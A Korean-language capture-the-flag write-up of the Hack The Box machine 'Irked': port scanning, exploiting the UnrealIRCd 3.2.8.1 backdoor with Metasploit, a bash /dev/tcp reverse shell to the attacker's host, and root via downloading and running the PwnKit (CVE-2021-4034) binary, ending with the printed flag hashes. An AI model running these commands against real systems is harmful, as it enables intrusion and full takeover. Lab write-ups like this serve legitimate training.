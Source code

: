 # Irked
## target: 10.129.215.108

## 정보수집
대상 호스트의 열려있는 포트를 조사하기 위해 nmap을 사용하여 포트스캐닝을 진행
```bash
#빠르게 전채 포트 스캔
nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 $ip
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
52804/tcp open  unknown
65534/tcp open  unknown

#열려있는 포트 서비스 버전 확인
nmap -sV -sC -oA nmap/Irked $ip -p 22,80,111,6697,52804,65534

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42732/tcp6  status
|   100024  1          48250/udp   status
|   100024  1          48879/udp6  status
|_  100024  1          52804/tcp   status
6697/tcp  open  irc     UnrealIRCd
52804/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
```
- 22 OpenSSH 6.7p1  
- 80 Apache httpd 2.4.10  
- 111 rpcbind 2-4
- 6697,665534 irc UnrealIRCd
- 52804 status 1 (RPC #100024)
## 웹서버 조사
> http://10.129.215.108/ IRC is almost working! 이라는 글만 있다

![alt text](img/webpage.png)


> https://ko.wikipedia.org/wiki/IRC
![alt text](img/IRC.png)

### 웹 디렉토리 브루트 포싱
```bash
gobuster dir -u http://10.129.215.108/ -w /usr/share/wordlists/dirb/common.txt -x php,txt

/index.html           (Status: 200) [Size: 72]
/manual               (Status: 301) [Size: 317] [--> http://10.129.215.108/manual/]
```
별다른 경로를 찾지 못했다.
웹페이지를 보면 irc 서비스가 운영중인걸로 보인다 irc연결 시도
```bash 

sudo apt install irssi
irssi

/CONNECT 10.129.215.108 6697

07:34 -!- Irssi: Connection to 10.129.215.108 established
07:34 !irked.htb *** Looking up your hostname...
07:34 !irked.htb *** Couldn't resolve your hostname; using your IP address instead
07:34 -!- Welcome to the ROXnet IRC Network root!root@10.10.14.74
07:34 -!- Your host is irked.htb, running version Unreal3.2.8.1
07:34 -!- This server was created Mon May 14 2018 at 13:12:50 EDT
07:34 -!- irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
07:34 -!- UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 
          KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 are supported by this server
07:34 -!- WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG 
          NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ are supported by this server
07:34 -!- EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP are supported by this server
07:34 -!- There are 1 users and 0 invisible on 1 servers
07:34 -!- I have 1 clients and 0 servers
07:34 -!- Current Local Users: 1  Max: 1
07:34 -!- Current Global Users: 1  Max: 1
07:34 -!- MOTD File is missing
07:34 -!- Mode change [+iwx] for user root
07:34 -!- You may not reregister

```

<u> 07:34 -!- irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj</u>  
Unreal3.2.8.1 사용중인것을 확인할수 있었다

## 취약점 진단
```bash
searchsploit Unreal 3.2.8.1
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)     
```
backdoor command execution 취약점이 존재하는 버전 사용중  
metasploit으로 취약점 공격 시도

## 취약점 공격격
```bash
┌──(root㉿kali)-[~/Hack_The_Box/Irked]
└─# msfconsole   
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set PAYLOAD cmd/unix/reverse
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.129.215.108
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6697
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 10.10.14.74
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.74:4444 -> 10.129.215.108:32923) at 2025-08-06 07:50:14 -0400

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)

```
리버스셸연결이 연결됐다 

## 권한상승

```bash
#완전한 셸을 위한 과정
#대상 호스트
bash -c 'exec bash -i &>/dev/tcp/10.10.14.74/9999 <&1'

#로컬 kali
nc -nlvp 9999
ircd@irked:~/Unreal3.2$python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$ ^Z
zsh: suspended  nc -nlvp 9999
                                                                                                                            
┌──(root㉿kali)-[~/Hack_The_Box/Irked]
└─# stty raw -echo;fg     
[2]  - continued  nc -nlvp 9999

ircd@irked:~/Unreal3.2$ 

```
setuid 탐색
```bash
ircd@irked:/home/djmardov$ find / -perm -4000 -type f 2> /dev/null

/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
```

<u>/usr/bin/pkexec</u> 권한 상승 취약점 존재  
https://github.com/ly4k/PwnKit CVE-2021-4034 - Pkexec Local Privilege Escalation 

```bash
#공격자 kali
┌──(root㉿kali)-[~/Hack_The_Box/Irked]
└─# wget https://github.com/ly4k/PwnKit/raw/refs/heads/main/PwnKit -O PwnKit
┌──(root㉿kali)-[~/Hack_The_Box/Irked]
└─# python3 -m http.server 7777   
#대상 호스트
ircd@irked:/tmp$ wget http://10.10.14.74:7777/PwnKit
ircd@irked:/tmp$ chmod +x PwnKit32
ircd@irked:/tmp$ ./PwnKit 

bash: ./PwnKit: cannot execute binary file: Exec format error
#호스트 버전에 맞지 않아 실패
ircd@irked:/tmp$ uname -a
Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux
# 32비트 운영체제

#32 비트운영체제에 맞는 exploit으로 시도
#공격자 kali
wget https://github.com/ly4k/PwnKit/raw/refs/heads/main/PwnKit32 -O PwnKit32
python3 -m http.server 7777   
#대상 호스트
ircd@irked:/tmp$ wget http://10.10.14.74:7777/PwnKit32
ircd@irked:/tmp$ chmod +x PwnKit32
ircd@irked:/tmp$ ./PwnKit32
root@irked:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(ircd)

root@irked:/tmp# cat /home/djmardov/user.txt 
0e0b63b83519b784c6f2a279716eb7ac

root@irked:/tmp# cat /root/root.txt 
389c2b788c7555fd92bd7a6a1e935080


```

# 취약점
1. 취약한 버전의 IRC
2. 잘못된 SETUID 설정
